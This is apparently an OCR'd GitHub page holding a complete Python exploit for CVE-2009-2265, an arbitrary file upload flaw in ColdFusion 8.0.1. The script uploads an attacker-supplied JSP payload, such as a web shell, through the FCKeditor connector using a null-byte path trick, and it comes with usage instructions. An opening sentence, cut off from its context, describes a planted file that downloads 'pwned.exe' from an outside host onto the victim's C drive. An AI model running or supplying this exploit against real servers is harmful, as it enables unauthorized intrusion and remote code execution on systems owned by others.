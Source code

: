 This will create a file called ‘cfdownload.cfm’ located in the ‘/userfiles/files/’ directory on the server that when executed will access the file hosted at ‘https://1.1.1.1/pwned.exe’ and then save it to the ‘C:\’ drive on the victim server as ‘pwned.exe.



## Upload script : CVE-2009-2265.py

````
#!/usr/bin/python
# Exploit Title: ColdFusion 8.0.1 - Arbitrary File Upload
# Date: 2017-10-16
# Exploit Author: Alexander Reid
# Vendor Homepage: http://www.adobe.com/products/coldfusion-family.html
# Version: ColdFusion 8.0.1
# CVE: CVE-2009-2265 
# 
# Description: 
# A standalone proof of concept that demonstrates an arbitrary file upload vulnerability in ColdFusion 8.0.1
# Uploads the specified jsp file to the remote server.
#
# Usage: ./exploit.py <target ip> <target port> [/path/to/coldfusion] </path/to/payload.jsp>
# Example: ./exploit.py 127.0.0.1 8500 /home/arrexel/shell.jsp
import requests, sys

try:
    ip = sys.argv[1]
    port = sys.argv[2]
    if len(sys.argv) == 5:
        path = sys.argv[3]
        with open(sys.argv[4], 'r') as payload:
            body=payload.read()
    else:
        path = ""
        with open(sys.argv[3], 'r') as payload:
            body=payload.read()
except IndexError:
    print 'Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/coldfusion] </path/to/payload.jsp>'
    print 'Example: ./exploit.py example.com 8500 /home/arrexel/shell.jsp'
    sys.exit(-1)

basepath = "http://" + ip + ":" + port + path

print 'Sending payload...'

try:
    req = requests.post(basepath + "/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/exploit.jsp%00", files={'newfile': ('exploit.txt', body, 'application/x-java-archive')}, timeout=30)
    if req.status_code == 200:
        print 'Successfully uploaded payload!\nFind it at ' + basepath + '/userfiles/file/exploit.jsp'
    else:
        print 'Failed to upload payload... ' + str(req.status_code) + ' ' + req.reason
except requests.Timeout:
    print 'Failed to upload payload... Request timed out'
````
